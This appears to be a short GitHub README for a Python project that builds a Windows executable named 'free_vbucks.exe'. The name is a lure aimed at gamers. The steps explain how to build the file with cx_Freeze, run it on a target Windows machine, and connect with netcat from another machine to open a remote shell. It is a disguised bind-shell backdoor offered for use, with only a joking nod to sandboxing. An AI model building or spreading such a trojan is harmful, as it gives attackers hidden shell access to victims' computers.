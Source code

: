 Pre-requisites:
Have Python and cx_Freeze installed

How to install cx_Freeze:
run "pip install cx_Freeze" in your terminal

How it works:

1. Open your code editor (or cmd) and run "python setup.py build" in the terminal
2. Open the folder inside the "Build" folder and run the "free_vbucks.exe" in your Windows system
3. Try "nc [your-windows-IP] 1234" on another machine (i.e. Kali Linux)
4. You should be able to spawn a shell on your target machine
5. pls do this using a sandbox 💀

Note: The netcat will run and listen only one time each time you run the executable. To re-enable Netcat to listen for incoming connections, simply execute the executable once more.
